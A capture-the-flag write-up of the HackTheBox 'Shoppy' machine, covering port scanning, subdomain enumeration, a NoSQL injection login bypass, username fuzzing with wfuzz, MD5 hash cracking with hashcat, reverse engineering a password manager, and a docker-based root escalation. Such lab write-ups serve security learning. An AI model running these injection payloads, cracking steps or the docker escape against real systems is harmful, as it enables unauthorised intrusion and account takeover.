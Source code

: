 ```yaml
---
title: Shoppy HackTheBox
published: true
tags: htb nosql sql injection password crack subdomain reverse engineering reveng docker gobuster hashcat md5
---
```


## recon

```
# nmap -sC -sV -Ao nmap 10.10.11.180

# Nmap 7.92 scan initiated Thu Sep 29 08:59:36 2022 as: nmap -sC -sV -Ao nmap.again 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 29 09:00:05 2022 -- 1 IP address (1 host up) scanned in 29.38 seconds
```

## open ports

- 22 = ssh 
- 80 = nginx http

## enumerating directories and subdomains

```bash
# find directories
gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt

# find subdomains
gobuster dns -w /usr/share/seclists/Discovery/DNS/namelist.txt -t 50 -d shoppy.htb
```

These scans reveals that there is a login page under `shoppy.htb/login` and asubdomain `mattermost`

## nosql injection

The login site is vulnerable to nosql injection which can be exploited when submitting `admin'||'1==1` as username.

By logging in we can search for users and get the hashed password. 
We now the user `admin` exists because we used his username in the nosql injection so we know how a positive search result looks like. 

With this information we can look for other users with `wfuzz`

## get users with wfuzz

```bash
wfuzz -c -z file,/usr/share/seclists/Usernames/Names/names.txt -L --hh 2561 --hc 500 -b "Cookie: rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2FU2e5ivWS313EqHejrDqmqWBOz%2B7JiK1ZGG8%2F1YJwbMqu75MRDE0GU; rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX1%2FUY9maqReUKFXmGrrT34nxbATStnx0je7zCF90BWcHFlQ0UyMBoDkHwtnp1WJHOC9wgPADeoHzXw%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX18zrc11pNHh3MGWXwjk8h1haEPxMCFoUas%3D; rl_trait=RudderEncrypt%3AU2FsdGVkX1%2BvmEdwpOw3wnRMj5AHU%2BCwhP1yuW80jog%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX18s9pN%2BNQ675PZeUnKOiPXIxXeioQcUDB8%3D; connect.sid=s%3A9xH10SZ2ZaAI3nOvgVp8GSxULBvnaDUp.e%2BkKff%2B%2BDrQhWq5D35SR4qy4jYNJraJLAzGmS9ByjEw" http://shoppy.htb/admin/search-users\?username\=FUZZ
```

Important here is to follow the request with the `-L` argument and to give it the header value with the `-b` argument. 
I was struggeling a bit with it because it always returned the same results until I tried it with curl and recognized that the request needs the cookie to success. 

When using right the resulting users are `admin` which we already knew and `josh`
```
000000086:   200        55 L     160 W      2720 Ch     "admin"
000004909:   200        55 L     160 W      2720 Ch     "josh"
```

When clicking on "Download Export" we get an `id`, `username` and a hashed `password`.
By looking at the length of the hashed password we can recognize that it is 32 chars long which can be a indication for the weak md5 hashing alogorithm.

## cracking found passwords

Using `hashcat` we have to store the two hashes from `admin` and `josh` in a file `hash.txt`
By runnig `hashcat hash.txt` we can determine what kind of hash it could be and so make sure that the md5 assumption is right. 
To crack the passwords run:
```bash
hashcat -m 0 --show hash.txt rockyou.txt
```

## getting user level

So we get the password for `josh` which we can use for the subdomain `mattermost`.Here we can login as `josh` and by looking around there are credentials for `jaeger` which we can use to `ssh` into the box and get the `user.txt`.

## privilege escalation

By running `sudo -l` we can examine which commands the user can execute.  
We find the executable `/home/deploy/password-manager` which we can run as the `deploy` user.

```bash
sudo -u deploy /home/deploy/password-manager`
```

We are asked about a master password which we can reverse engineer.

## reverse engineering master password

By copying the executable to the loacl maschine we can inspect it with the tools we are familiar with. 
First I tried to get the strings in it to look if the password where used in clear text in the source code. 
```bash 
strings password-manager
```
Unfortunately no success with it. 

To continue we can use radare2 to get more information about the executable.

```
r2 password-manager
aaa
s main 
VV
```

In the now presented callflow we can find a string `Sample`.

So we can authenticate in the password-manager with this master password and we get the credentials for the deploy user.

We can now login as `deploy` by executing `su deploy`

## getting root

Still no permissions to access `/root` so we have to continue...

By looking around be can find out that we can docker without super user rights.
So we look for docker in GTFOBins to bypass security restrictions and find [this](https://gtfobins.github.io/gtfobins/docker/).

To become `root` we run the command explained at the bottom of the site. 

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Voila. We are root
